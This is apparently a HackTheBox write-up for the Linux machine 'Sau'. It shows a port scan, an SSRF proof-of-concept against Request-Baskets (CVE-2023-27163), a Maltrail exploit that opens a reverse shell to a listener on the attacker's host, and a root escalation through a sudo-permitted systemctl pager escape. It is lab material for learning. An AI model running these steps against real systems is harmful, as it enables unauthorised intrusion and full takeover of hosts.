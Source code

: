 ```yaml
---
layout: page
title: "Sau "
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Sau

HackTheBox: Medium

<aside>
💡 Sau is a medium linux machine which exploit vulnerabilities due to older versions

</aside>

## 1: Enumeration

- Scanning ports

```bash
$ sudo nmap -n -Pn -p- 10.129.229.26
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-24 21:32 PDT
Nmap scan report for 10.129.229.26
Host is up (0.27s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 1388.12 seconds
```

We have a web service at 55555 it allows inspect and depure http requests 

It is vulnerable to (CVE-2023-27163) 

```bash
$ ./CVE-2023-27163.sh http://10.129.229.26:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "sbqmby" proxy basket...
> Basket created!
> Accessing http://10.10.11.234:55555/xsikpk now makes the server request to http://127.0.0.1:80.
> Authorization: FfWcOUyPi4nGFDSfzSDz_9NrvirREpBzXqJQoiy0-2DqK5NM
```

That POC make a reques to 80 port and we can get to it

## 2: User flag

![Untitled]({{ '/assets/images/6fd0d9dd-d49e-4e79-91de-37466e0d34f5-export-216ae02a-fe78-48b7-9c84-c96a4313992c/6fd0d9dd-d49e-4e79-91de-37466e0d34f5-export-216ae02a-fe78-48b7-9c84-c96a4313992c_Untitled.png' | relative_url }})

We find a Maltrail service running with an unprotected version

We find another POC 

```bash
$ python3 exploit.py 10.10.14.246 4444 http://10.10.11.234:55555/sbqmby
Running exploit on http://10.10.11.234:55555/sbqmby
```

```bash
$ nc -nlvp 4444
listening on [any] 4444...
connect to [10.10.14.246] from (UNKNOWN) [10..10.11.234] 38442
$ whoami
whoami
puma
```

## 3: Priv esc

Check for privileges

```bash
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

It appears that we are able to examine the trail.service's status.

```bash
sudo /usr/bin/systemctl status

while it load

!/bin/sh -- !sh

We are root

```

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>

